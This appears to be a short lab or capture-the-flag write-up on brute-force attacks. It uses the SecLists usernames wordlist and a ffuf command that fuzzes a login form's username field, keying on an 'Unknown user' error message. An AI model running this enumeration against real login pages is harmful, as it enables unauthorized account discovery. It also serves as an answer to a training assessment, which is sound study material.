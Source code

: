 # Brute-Force Attacks

### Enumerate a valid user on the web application. Provide the username as the answer.

To complete this assessment we need the SecLists usernames wordlist and a simple ffuf command to brute-force the an application username.

**Step 1 -** Download the SecLists wordlist:

* [xato-net-10-million-usernames.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/xato-net-10-million-usernames.txt)

**Step 2 -** Enumerate with ffuf:

* {% code overflow="wrap" %}
  ```bash
  ffuf -w xato-net-10-million-usernames.txt -u http://SERVER_IP:SERVER_PORT/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=random" -fr "Unknown user"
  ```
  {% endcode %}

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

After a few seconds we got the username!
